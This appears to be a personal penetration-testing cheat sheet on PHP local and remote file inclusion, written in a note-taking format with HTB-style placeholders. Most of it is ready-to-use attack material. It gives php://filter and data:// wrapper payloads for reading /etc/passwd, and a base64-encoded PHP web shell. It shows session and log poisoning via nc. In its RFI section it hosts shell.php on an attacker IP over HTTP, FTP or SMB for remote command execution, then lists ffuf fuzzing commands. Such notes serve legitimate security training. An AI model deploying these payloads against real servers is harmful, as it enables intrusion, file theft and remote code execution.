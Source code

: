 #FI 
![[target files.png]]

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

##### Check if wrappers are supported
To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version.
```
allow_url_include = On
```

#php### PHP Wrappers
* https://www.php.net/manual/en/wrappers.php.php
* `php://filter/convert.base64-encode/resource=/etc/passwd`
* `php://filter/read=convert.base64-encode/resource=/etc/passwd`
* `data:text/plain,<?php%20phpinfo();%20?>`



![[php filter.png]]


![[file links.png]]
We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`

###### Session poisoning files
1. Inject `<?php echo phpinfo(); ?>` into session.
2. Access URL with LFI vulnerability to execute the code:
`sessions.php?page=/var/lib/php/sessions/sess_[sessionID]`

###### Log poisoning
[[log poison]]
```php
$ nc MACHINE_IP 80      
<?php echo phpinfo(); ?>
```
or poison User-Agent header


Then using LFI vulnerability to access the log file.
log files:
`/var/log/apache2/access.log`
`C:\xampp\apache\logs\`
`/var/log/nginx/ `
`C:\nginx\log\`

or for User-Agent header:
```
Tip: The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.
```

other logs:
    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log

LFI fuzz
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

##### LFI
[[LFI]]
`dataserver=file:///etc/passwd`

#### RFI
[[RFI]]
https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion

Verify RFI
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
or
`try and include a URL`, and see if we can get its content

RCE with RFI [[RCE]]
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

python3 -m http.server 8000
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:8000/shell.php&cmd=id
```
or host our script via ftp
```shell
sudo python -m pyftpdlib -p 21

curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

host via smb [[SMB]]
```bash
impacket-smbserver -smb2support share $(pwd)
```
open
```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

RCE via file upload [[RCE]]
1. upload a php script (look File upload section)
2. use LFI methos to  `?language=./uploads/shell.gif&cmd=id`

LFI fuzzing
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters
/index.php?language=FUZZ
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

fuzzing server dirs [[ffuf]]
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

fuzz logs and configs of server
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

LIF automation
https://github.com/D35m0nd142/LFISuite
https://github.com/OsandaMalith/LFiFreak
https://github.com/mzfr/liffy